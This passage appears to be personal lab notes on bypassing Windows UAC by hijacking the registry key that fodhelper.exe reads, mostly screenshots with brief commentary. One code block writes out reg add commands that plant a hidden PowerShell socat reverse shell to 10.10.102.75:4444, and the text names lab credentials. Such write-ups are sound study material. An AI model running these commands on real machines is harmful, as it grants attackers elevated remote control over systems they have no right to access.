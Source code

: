 ![](/assets/img/Pasted image 20230521184715.png)

	- The user 'noob' is a member of the Administrators group but we don't have a high privilege shell because of the UAC mechanism.

```
3. Modifying the Registry to manipulate certain registry key used by "fodhelper.exe" service to execute a reverse shell: (Execute it with the Initial access Shell)
		C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
		C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.10.102.75:4444 EXEC:cmd.exe,pipes"
		
		C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
		The operation completed successfully.
		
		C:\> reg add %REG_KEY% /d %CMD% /f
		The operation completed successfully.
```

**Note**: Changing the Registry key and values `requires` local administrative privileges in which remote connection from user `noob` don't have even if it is a member of the Administrators group. This requires RDP session login.

<u>Preparation</u>:

- Setup the text file to be copied online:

![](/assets/img/Pasted image 20230521185626.png)

- Setup the site to download/copy this from:

![](/assets/img/Pasted image 20230521185647.png)


##### RDP Session using credentials `noob:password`

- Logging in:

![](/assets/img/Pasted image 20230521185008.png)

	- Note that doing this logs out the user 'noob' on their session so we want to modify the registry value and execute fodhelper.exe quickly.

- Checking the commands to execute to modify the Registry `fodhelper.exe` use when it gets executed:

![](/assets/img/Pasted image 20230521190011.png)

- Execution:

![](/assets/img/Pasted image 20230521190059.png)

<u>Before the execution of these commands</u>:

![](/assets/img/Pasted image 20230119224404.png)
